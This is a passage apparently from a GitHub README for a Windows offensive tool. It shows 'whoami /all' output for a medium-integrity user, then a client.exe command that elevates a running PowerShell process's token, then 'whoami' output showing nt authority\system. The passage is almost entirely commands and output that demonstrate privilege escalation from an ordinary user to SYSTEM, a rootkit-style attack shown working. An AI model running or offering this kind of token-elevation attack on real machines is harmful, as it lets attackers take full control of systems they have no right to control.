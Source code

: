 ```
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name powershell.exe --elevate
[+] Tokens privileges elevated successfully 6376
```

```
PS C:\Users\memn0ps\Desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


PRIVILEGES INFORMATION
----------------------

```